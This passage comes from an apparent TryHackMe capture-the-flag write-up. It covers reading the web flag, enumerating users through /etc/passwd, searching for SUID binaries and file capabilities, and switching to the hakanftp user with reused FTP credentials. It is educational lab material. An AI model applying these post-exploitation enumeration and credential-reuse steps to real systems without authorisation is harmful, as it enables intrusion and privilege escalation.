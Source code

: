 I'm user `www-data`!

**Web flag:**
```shell
www-data@ubuntu:/var/www/subdomain$ cat /var/www/html/wwe3bbfla4g.txt
THM{Redacted}
```

## Privilege Escalation

### www-data to hakanftp

Let's do some basic enumerations!

**System users:**
```shell
www-data@ubuntu:/var/www/subdomain$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
hakanbey:x:1000:1000:hakanbey:/home/hakanbey:/bin/bash
hakanftp:x:1001:1001:,,,:/var/www/subdomain:/bin/bash
```

- Found 2 system user: `hakanbey`, `hakanftp`

**SUID binaries:**
```shell
www-data@ubuntu:/var/www/subdomain$ find / -perm -4000 2>/dev/null
```

Nothing?

**Capability:**
```shell
www-data@ubuntu:/var/www/subdomain$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
```

Nothing weird.

**Now, since we have a FTP credentials, we can try to Switch User to `hakanftp`:**
```shell
www-data@ubuntu:/var/www/subdomain$ su hakanftp
Password: 
hakanftp@ubuntu:~$ whoami;hostname;id;ip a
hakanftp
ubuntu
uid=1001(hakanftp) gid=1001(hakanftp) groups=1001(hakanftp)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:e0:8b:fe:8b:6d brd ff:ff:ff:ff:ff:ff
    inet 10.10.152.107/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e0:8bff:fefe:8b6d/64 scope link 
       valid_lft forever preferred_lft forever
```
